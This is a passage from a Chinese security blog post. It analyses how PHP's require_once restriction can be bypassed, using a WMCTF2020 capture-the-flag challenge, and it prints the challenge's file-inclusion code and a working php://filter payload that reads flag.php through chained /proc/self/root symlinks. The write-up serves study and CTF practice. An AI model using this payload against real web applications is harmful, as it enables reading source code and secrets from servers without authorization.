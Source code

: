 > 原文链接: https://www.anquanke.com//post/id/213235 


# php源码分析 require_once 绕过不能重复包含文件的限制


                                阅读量   
                                **299137**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">4</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p4.ssl.qhimg.com/t012720deefbf6d74f4.png)](https://p4.ssl.qhimg.com/t012720deefbf6d74f4.png)



## 简介

众所周知，在php中，`require_once`在调用时php会检查该文件是否已经被包含过，如果是则不会再次包含，那么我们可以尝试绕过这个机制吗？不写入webshell只读文件有办法吗？

```
&lt;?php
error_reporting(E_ALL);
require_once('flag.php');
highlight_file(__FILE__);
if(isset($_GET['content'])) `{`
    $content = $_GET['content'];
    require_once($content);
`}` //题目的代码来自WMCTF2020 make php great again 2.0 绕过require_once是预期解
```

php的文件包含机制是将已经包含的文件与文件的真实路径放进哈希表中，当已经`require_once('flag.php')`，已经include的文件不可以再require_once。

今天就来谈谈，怎么设想如何绕过这个哈希表，让php认为我们传入的文件名不在哈希表中，又可以让php能找到这个文件，读取到内容。

在这里有个小知识点，`/proc/self`指向当前进程的`/proc/pid/`，`/proc/self/root/`是指向`/`的符号链接，想到这里，用伪协议配合多级符号链接的办法进行绕过，payload:

```
php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php

//result PD9waHAKCiRmbGFnPSJ0ZXN0e30iOwo=
```

接下来我们将对绕过的原理进行分析，php7.2.23的源码进行分析，建议配合Clion在linux里进行调试，至于如何搭建调试环境，可以自行搜索，参考一些别的文章。
